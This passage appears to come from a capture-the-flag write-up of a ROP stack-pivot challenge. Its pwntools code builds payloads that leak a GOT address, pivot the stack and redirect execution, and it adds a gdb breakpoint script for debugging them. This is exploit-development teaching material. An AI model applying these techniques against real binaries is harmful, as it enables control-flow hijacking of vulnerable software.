 ```python
}

padding = 40
lib_got_offset = 279
debug_script = ""

with open("debug.gdb", "r") as file_io:
    debug_script += file_io.read()

payload_1 = pwn.flat(
    pwn.p64(gadgets["foothold_function@plt"]),
    pwn.p64(gadgets["pop_rdi_ret"]),
    pwn.p64(gadgets["foothold_function@got"]),
    pwn.p64(gadgets["puts@plt"]),
    pwn.p64(gadgets["main"]),
    b"\n"
) 

io = pwn.gdb.debug(binary, gdbscript=debug_script, log_level="debug")
io.recvuntil(": ")
leak = io.recvline().strip()
pwn.info(f"leak found {leak}")

payload_2 = pwn.flat(
    b"A"*padding,
    pwn.p64(gadgets["pop_rax_ret"]),
    pwn.p64(int(leak, 16)),
    #pwn.p64(address),
    pwn.p64(gadgets["xchg_rsp_rax"])
)

payload_3 = pwn.flat(
    pwn.asm('nop'),
    b"\n"
)

payload_4 = pwn.flat(
    b"A"*padding,
    pwn.p64(gadgets["foothold_function@got"] + lib_got_offset)
)
```
This will actually launch the process under gdb and run the debug script.
## GDB Script
```bash
b *main
b *pwnme+113
b *pwnme+170
b *0x4009bb
b *0x4009bd
b *0x4009c0
```
All of these things combined can let the attacker import the debug script into ipython, then send the different payloads, and debug them in memory
This way the payloads can also be built using information extracted from the program.
Since the session can use these:
```python
io.send(payload_1)
```
and:
```python
pwn.info(io.recv(4096))
```